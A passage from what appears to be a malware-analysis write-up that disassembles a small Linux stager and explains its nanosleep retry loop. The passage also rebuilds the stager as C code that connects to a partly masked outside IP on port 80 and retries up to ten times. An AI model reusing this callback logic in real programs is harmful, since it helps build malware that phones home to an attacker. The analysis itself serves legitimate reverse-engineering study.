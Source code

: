 ```c
if(connect(s, (struct sockaddr*)&serverAddress, sizeof(serverAddress)) < 0) {
    tries--;
    if (tries == 0) {
        exit(1);
    }
    // call nanosleep here
}
// loc_804809C code 
```

---

### Call to nanosleep function

![Figure 13: nanosleep, mprotect, and read syscalls](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%2013.png)

Figure 13: nanosleep, mprotect, and read syscalls

If the esi register is not zero, the control jumps to “nanosleep” syscall, refer to Figure 13.

```wasm
push    0A2h
pop     eax
push    0
push    5
mov     ebx, esp        ; req
xor     ecx, ecx        ; rem
int     80h             ; LINUX - sys_nanosleep
test    eax, eax
jns     short loc_8048057
```

- `push 0xA2` will push the value **162** on the stack and then next instruction will pop it and load the value into *eax* register. The *eax* register holds the syscall number and **162** is the syscall number for “nanosleep”.
- The two push instructions will push the values **0** and **5** on stack. These two values together make up an object and the size of the objet is 8 bytes.
- `mov ebx, esp` will  move the address in esp to *ebx*. Now *ebx* will point to the object that was pushed on the stack (values 0 and 5).
- `xor ecx, ecx` will set the ecx register to zero.
- `int 80h` will execute the “nanosleep” syscall. The first argument is in *ebx* (pointer to timespec object), the second argument (null a.k.a zero) is in ecx, refer to Figure 14.
- `test eax, eax` will check the result of the function and jump to exit function if it’s negative. If it’s not negative, then it will jump to `loc_8048057` , which is basically the first function call in code, refer to Figure 2.

![Figure 14: Synopsis of nanosleep function. ](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%2014.png)

Figure 14: Synopsis of nanosleep function. 

So far, the code looks like this:

```c
int main() {
    int tries = 10;
    while (true) {
        int s = socket(AF_INET, SOCK_STREAM, 0); 

        sockaddr_in serverAddress;
        serverAddress.sin_family = AF_INET;
        serverAddress.sin_port = htons(80);

        if (inet_pton(AF_INET, "149.28.xxx.xxx", &serverAddress.sin_addr) <= 0) {
            printf(
                "\nInvalid address/ Address not supported \n");
            return -1;
```